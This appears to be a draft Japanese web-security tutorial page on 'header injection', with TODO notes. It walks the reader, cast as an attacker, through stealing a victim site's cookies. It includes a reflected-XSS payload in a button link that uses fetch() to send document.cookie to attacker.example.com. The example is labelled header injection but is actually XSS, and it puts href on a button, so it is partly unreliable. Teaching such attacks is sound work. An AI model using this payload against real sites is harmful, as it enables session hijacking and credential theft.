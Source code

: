 # ヘッダーインジェクション

(TODO: 説明をリッチにする)

victim.example.com では、ユーザーが送信した名前と年齢を返すようなサービスを提供しています。 (TODO: 画像)
このサービスはほかの人の名前や年齢を表示しないため、先ほど使った XSS は使えません。

あなたは、 victim.example.com で利用させれているログイン情報を盗みたいです。ログイン情報は、 cookie に保存されているものとします。

自身のウェブサイトで次のようなボタンを用意し、被害者に押させましょう。

```html
<button href='https://victim.example.com/?name=<script>fetch("https://attacker.example.com?data="+document.cookie)</script>&age=0'>
  押して！
</button>
```
